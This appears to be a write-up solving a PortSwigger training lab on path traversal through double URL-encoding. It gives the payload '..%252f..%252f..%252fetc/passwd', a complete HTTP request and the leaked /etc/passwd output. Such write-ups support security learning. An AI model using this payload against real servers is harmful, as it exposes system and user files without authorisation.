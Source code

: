 # [Lab 4: File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

---

## Description

This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application blocks input containing [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

## Solution

View the page source of `/` and note that each product's image is rendered via an `img` take with the `src` attribute set to `/image?filename=$FILENAME`. According to the challenge description, `$FILENAME` is stripped of path traversal sequences like `../` or `..\` and URL-decoded before being used in any file system operations on the backend.

The order of their sanitization efforts is interesting. By stripping away path traversal sequences and *then* URL-decoding the string, it is possible to embed path traversal sequences into the string as URL-encoded characters.

The key is to realize that the web server probably already URL-decodes the `filename` parameter before handing it to the backend code. The order of operations is the following:

```php
$filename = url_decode($filename)
$filename = strip_traversal_sequences($filename)
$filename = url_decode($filename)
```

To exploit this extraneous URL decoding to achieve the final `filename` value of `../../../etc/passwd`, use the following input: `..%252f..%252f..%252fetc/passwd`. It goes through the order of operations as so:

```php
$filename = url_decode($filename)					# ..%252f..%252f..%252fetc/passwd
$filename = strip_traversal_sequences($filename)	# ..%2f..%2f..%2fetc/passwd
$filename = url_decode($filename)					# ../../../etc/passwd
```

Send the request.

```http
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/1.1
Host: ac881f741ef869ae811336fd00650080.web-security-academy.net
Cookie: session=yLKTfps13sCzQ9EGp4XRE2H0lMdQhBGi
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

```txt
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 1205

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:2001:2001::/home/peter:/bin/bash
carlos:x:2002:2002::/home/carlos:/bin/bash
user:x:2000:2000::/home/user:/bin/bash
elmer:x:2099:2099::/home/elmer:/bin/bash
dnsmasq:x:101:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
messagebus:x:102:101::/nonexistent:/usr/sbin/nologin
```
